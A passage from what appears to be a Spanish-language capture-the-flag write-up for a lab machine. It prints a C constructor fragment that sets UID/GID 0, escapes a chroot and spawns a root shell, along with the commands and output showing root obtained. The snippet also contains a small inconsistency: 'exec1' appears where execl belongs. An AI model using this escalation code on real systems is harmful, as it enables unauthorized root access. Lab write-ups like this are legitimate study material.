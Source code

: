 ```bash
# Fragmento del código del exploit.sh
__attribute__((constructor))
void woot(void) {
	setreuid(0,0);  /* change to UID 0 */
	setregid(0,0);  /* change to GID 0 */
	chdir("/");     /* exit from chroot */
	exec1("/bin/bash", "/bin/bash", NULL); /* root shell */
}
````
2. Ejecución del Exploit y Escalada de Privilegios

El script se preparó y ejecutó para obtener la shell de root.
````
Acción,Comando,Detalle
Habilitar Ejecución,chmod +x exploit.sh,"El intento inicial falló por ""Permission denied"", requiriendo permisos de ejecución."
Ejecutar Exploit,./exploit.sh,La ejecución exitosa resultó en una shell con el usuario root.
````

````
Bash
ike@expressway:~$ chmod +x exploit.sh
ike@expressway:~$ ./exploit.sh 
# ...
[•] Running exploit...
root@expressway:/# whoami
root
````
3. Obtención de la Bandera Root

Finalmente, se navegó al directorio /root para leer el archivo root.txt y completar la máquina.







